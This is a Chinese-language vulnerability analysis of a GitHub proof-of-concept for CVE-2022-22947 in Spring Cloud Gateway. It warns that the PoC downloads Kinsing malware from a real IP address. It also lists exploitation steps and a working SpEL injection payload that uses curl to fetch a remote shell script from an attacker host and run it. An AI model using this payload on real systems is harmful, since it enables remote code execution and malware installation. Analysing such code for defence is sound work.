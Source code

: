 ## CVE-2022-22947 Spring Cloud Gateway 代码注入

**漏洞编号:** CVE-2022-22947

**漏洞类型:** 代码注入

**影响应用:** Spring Cloud Gateway

**危害等级:** 高危，可导致远程代码执行

**影响版本:** 3.1.x prior to 3.1.1+, 3.0.x prior to 3.0.7+

**利用条件:** Gateway Actuator 端点已启用、公开且未受保护。

**POC 可用性:** 是

**投毒风险:** 85%

## 详情

CVE-2022-22947 是一个 Spring Cloud Gateway 代码注入漏洞。当 Gateway Actuator 端点启用、公开且未受保护时，攻击者可以通过构造恶意的 SpEL 表达式来执行任意代码。 

**有效性：**
根据漏洞信息、搜索结果和提供的 POC 代码，该漏洞利用是有效的。POC 通过向 `/actuator/gateway/routes` 端点发送 POST 请求来创建新的路由，并在 `AddResponseHeader` 过滤器中使用 SpEL 表达式注入恶意代码。然后刷新路由，并通过访问新创建的路由触发代码执行。最后删除该路由。

**投毒风险：**
提供的 POC 代码存在较高的投毒风险。具体体现在：
1.  **恶意脚本下载和执行：** POC 代码中的 SpEL 表达式尝试从远程服务器（如 `94.103.87.71/scg.sh` ）下载并执行 shell 脚本。 这允许攻击者注入任意恶意代码，例如下载和安装 Kinsing 恶意软件。
2.  **后门植入：** 下载的 shell 脚本可能包含后门代码，允许攻击者在受害者系统上保持持久访问。
3. ** Kinsing恶意软件:** 通过分析shell脚本，发现最终目的是下载并安装 Kinsing 恶意软件

因此，此存储库的投毒风险非常高，约为 85%。使用此POC需要谨慎，务必在隔离环境中进行分析，确保不会对本地环境造成风险。

**利用方式：**
1.  **检查 Actuator 端点：** 确认目标 Spring Cloud Gateway 实例的 Actuator 端点是否启用、公开且未受保护。
2.  **创建恶意路由：** 使用 POST 请求向 `/actuator/gateway/routes` 端点创建一个新的路由。在路由的 `filters` 部分，使用 `AddResponseHeader` 过滤器，并在 `value` 字段中插入包含恶意 SpEL 表达式的代码。 例如:

   ```json
   {
	 "id": "poc",
	 "filters": [{
	   "name": "AddResponseHeader",
	   "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"/bin/sh\",\"-c\",\"curl -s <ATTACKER_IP>/shell.sh|sh\"}).getInputStream()))}"}
	   }],
	 "uri": "http://example.com",
	 "order": 0
	}
   ```

3.  **刷新路由：** 使用 POST 请求向 `/actuator/gateway/refresh` 端点发送请求，以刷新所有路由。
4.  **触发代码执行：** 访问新创建的路由，触发 SpEL 表达式的执行。
5.  **清理：** 使用 DELETE 请求向 `/actuator/gateway/routes/{route_id}` 端点删除创建的恶意路由。

**项目地址:** [Sumitpathania03/CVE-2022-22947](https://github.com/Sumitpathania03/CVE-2022-22947)

**漏洞详情:** [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)